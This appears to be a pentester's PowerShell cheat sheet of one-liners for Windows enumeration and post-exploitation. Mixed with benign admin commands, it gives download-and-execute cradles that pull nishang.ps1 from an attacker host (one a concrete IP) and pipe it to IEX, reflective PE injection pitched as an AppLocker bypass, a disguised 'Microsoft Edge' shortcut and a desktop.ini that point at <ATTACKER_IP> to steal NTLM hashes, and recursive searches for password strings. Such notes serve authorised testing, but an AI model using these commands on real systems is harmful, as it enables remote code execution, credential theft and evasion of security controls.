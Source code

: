 # Extract zip file
`Expand-Archive <FILE>.zip`

# Download to disk
## using .Net WebClient:
`(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)`

## using Invoke-WebRequest
`IWR '<URL>' -OutFile <FILENAME>`

# Execute powershell in memory
`(New-Object Net.WebClient).DownloadString('<URL>') | IEX`

# Get files only in a directory
`(ls -File -Recurse -Force -EA SilentlyContinue).fullname`

# Get OS architecture
`$env:processor_architecture`

# Get Process Architecture
`[Environment]::Is64BitProcess`

# Locally listening ports (TCP)
`netstat -ano -p tcp`

# Get ACL
`Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString`

# get file system access
`$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'`

# Get Process Owners
`Get-WmiObject -class win32_process | ? {$_.name -notlike '*svchost*'} | select name,@{n='owner';e={$_.getowner().user}} | ft -autosize`

# Get .NET Version
## Paths:
`c:\windows\microsoft.net\framework`
`c:\windows\microsoft.net\framework64`
## Command:
`(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion`

# get-bytes of a string
`[System.Text.Encoding]::UTF8.GetBytes('hello')`

# Reflective Execution (Can Bypass Applocker)
`Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))`

# CMD to powershell
`powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"`

# Start a job with alternative creds
`Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')}`

# Jump to powershell v2
`Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"`

# Get Alternate Data Streams
`$ErrorActionPreference = 'SilentlyContinue'; ls * -Recurse -Force | % {Get-Item $_ -Stream * | ? {$_.Stream -notmatch ':\$DATA|Zone\.Identifier'} |Select FileName, Stream}; $ErrorActionPreference = 'Continue'`

# View listening connections (with optional PID translation to Proc names)
`$PROCS = Get-Process; Get-NetTCPConnection -LocalAddress <LOCAL_IP> | Sort-Object LocalPort | Select-Object @{n='Process';e={$ID = $_.OwningProcess; if($PROCS){($PROCS|?{$ID -eq $_.id}).name}else{$ID}}},LocalAddress,LocalPort,RemoteAddress,RemotePort,State | Format-Table`

# Create Malicious Shortcut (lnk) file to steal hashes
```
$Output_For_Lnk = "$pwd\Microsoft Edge.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@source"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browse the web"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

# Enable PowerShell Remoting
`Enable-PSRemoting -Force`

# Search for strings in files:
`$ErrorActionPreference = 'SilentlyContinue';ls -Recurse -Force | % {sls -Path $_.fullname -Pattern ".*password.*"}; $ErrorActionPreference = 'continue'`

# Create malicious `.ini` file
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\aaa
```